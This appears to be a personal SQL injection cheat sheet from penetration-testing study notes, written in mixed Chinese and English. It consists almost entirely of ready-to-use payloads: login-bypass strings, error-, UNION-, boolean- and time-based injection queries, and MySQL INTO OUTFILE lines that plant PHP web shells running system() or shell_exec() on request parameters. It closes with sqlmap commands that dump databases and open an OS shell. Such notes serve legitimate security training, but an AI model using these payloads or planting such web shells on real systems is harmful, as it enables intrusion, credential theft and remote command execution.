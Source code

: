 1* SQLi可以注入实现RCE 
# Testing for SQLi
[PayloadAlltheThings - Good Stuff for Manual SQLi](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/PostgreSQL%20Injection.md)
## Testing for Bypasses: 
   ' or 1=1 LIMIT 1 --
   ' or 1=1 LIMIT 1 -- -
   ' or 1=1 LIMIT 1#
   'or 1#
   ' or 1=1 --
   ' or 1=1 -- -
## Error-Based
```sql
'offsec' OR 1=1 -- //
'offsec' OR 1=1 -- //


'offsec' OR 1=1 in (SELECT * FROM users) -- //
'offsec' or 1=1 in (SELECT password FROM users) -- //
'offsec' or 1=1 in (SELECT password FROM users WHERE username = 'admin') -- //
```
## UNION-Based
```sql
'' ORDER BY 1-- //
'...%' UNION SELECT database(), user(), @@version, null, null -- //
'' union select null, table_name, column_name, table_schema, null from information_schema.columns where table_schema=database() -- //
'' UNION SELECT null, username, password, description, null FROM users -- //
```
## Boolean-Based
cast()&&convert()参数只能为一个值
```sql
'' AND 1=1 -- //
CAST((SELECT example_column FROM example_table) AS int)
''1 UNION SELECT 'aaaa',null,null,null
/* ... */
'' UNION SELECT 1, 2, 3, CAST(column_name AS INT), 5, 6 FROM users -- 
```
## Time-Base SQLi
```sql
offsec'' AND IF (1=1, sleep(3),'false') -- //
-- IF(Expr, if_true_expr, if_false_expr)
```
## MySQL Lead to RCE !
```sql
' UNION SELECT "<?php system($_GET['cmd']);?>", null, null, null, null INTO OUTFILE "/var/www/html/tmp/webshell.php" -- //
[...] UNION SELECT "<?php system($_GET['cmd']); ?>" into outfile 
"C:\\xampp\\htdocs\\backdoor.php"
   [...] UNION SELECT '' INTO OUTFILE '/var/www/html/x.php' FIELDS TERMINATED BY '<?php phpinfo();?>'
   [...] UNION SELECT 1,2,3,4,5,0x3c3f70687020706870696e666f28293b203f3e into outfile 'C:\\wamp\\www\\pwnd.php'-- -
   [...] union all select 1,2,3,4,"<?php echo shell_exec($_GET['cmd']);?>",6 into OUTFILE 'c:/inetpub/wwwroot/backdoor.php'
```

## SQLmap
```bash
# --batch auto yes; -r <request.txt> -D <db> -T <table> -C <column>
#--dbs --tables --columns get schema_name
#--web-root writable file for current user.
sqlmap -u http://172.21.0.0 --crawl=1 [-p parameter]
	# dump
sqlmap -u http://172.21.0.0 --dbms=mysql --dump
# Shell
sqlmap -u http://172.21.0.0 --dbms=mysql --os-shell
# -p inject_point
sqlmap -r packet.txt --batch -p --level 3 -dbs -D ... -T ...
sqlmap -u {$Target_URL} --form --level 3
sqlmap -r {$packet}.txt --batch --level 3 -D {$database} -T {$table} --dump

sqlmap -u 'http://<IPaddr>/...?search=any+query' --cookie= <cookie> #e.g. PHPSESSID=<your cookie>
```
